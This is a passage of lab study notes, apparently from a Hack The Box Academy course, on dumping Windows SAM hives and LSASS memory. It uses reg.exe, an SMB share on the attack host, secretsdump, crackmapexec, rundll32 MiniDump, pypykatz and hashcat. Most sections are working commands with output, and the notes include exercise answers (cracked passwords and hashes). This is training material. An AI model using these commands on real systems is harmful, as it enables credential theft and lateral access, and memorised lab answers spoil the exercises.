 # Attacking SAM & LSASS

## Attacking SAM

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

There are three registry hives that we can copy if we have local admin access on the target ->

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

We can create backups of these hives using the `reg.exe` utility.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```shell-session
ElFelixi0@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

And then once everything is on the attackbox we can dump it using secretsdump ->

```shell-session
ElFelixi0@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

we can copy the NT hashes associated with each user account into a text file and start cracking passwords.

```shell-session
ElFelixi0@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
<SNIP>
```

and in hashcat ->

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping

Using crackmapexec (better to use netexec but in the course it will be cme) we can extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

_**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

```
hashcat -m 1000 realnthash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p>c02478537b9727d391bc80011c2e2321:matrix</p></figcaption></figure>

_**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer.**_

```
crackmapexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

LSASS will:

* Cache credentials locally in memory
* Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* Enforce security policies
* Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption><p><code>Open Task Manager</code> > <code>Select the Processes tab</code> > <code>Find &#x26; right click the Local Security Authority Process</code> > <code>Select Create dump file</code></p></figcaption></figure>

And a file will be created here ->

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

And we can transfer the file to our local machine just like the sam one.

### Rundll32

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.

we must determine what process ID (`PID`) is assigned to `lsass.exe` throught cmd or powershell

_**CMD:**_

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
<SNIP>
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

_**Powershell:**_

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

And then we can use rundll ->

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`) and we can transfer that file to attackbock just like the others.

### Pypykatz to Extract Credentials

Now that we have our dmp file we can use [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file.

```shell-session
ElFelixi0@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will looksomething like this ->

```shell-session
<SNIP>
== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
<SNIP>	
```

Now we can use Hashcat to crack the NT Hash.

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

_**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1455).png" alt=""><figcaption><p>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP</p></figcaption></figure>

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1032889/Documents/
```

<figure><img src="../../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

```
pypykatz lsa minidump lsass.DMP
```

<figure><img src="../../../../.gitbook/assets/image (1457).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314</p></figcaption></figure>

```
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1458).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314:Mic@123</p></figcaption></figure>
